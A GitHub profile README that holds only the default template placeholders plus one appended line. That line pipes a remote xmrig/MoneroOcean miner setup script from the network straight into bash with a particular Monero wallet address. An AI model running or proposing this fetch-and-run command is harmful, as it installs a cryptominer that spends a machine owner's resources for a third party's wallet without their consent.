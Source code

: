 - 👋 Hi, I’m @Abolijami
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Abolijami/Abolijami is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 43aC5dFyLKrZxJWFuYCQa2fhQ6CFv5gurd9g8Xhhub8HNGwUgnd8Cb97enxNHQ1vXoMDBSD6XQf8rd8CEvm5T4gaLxQDkdx
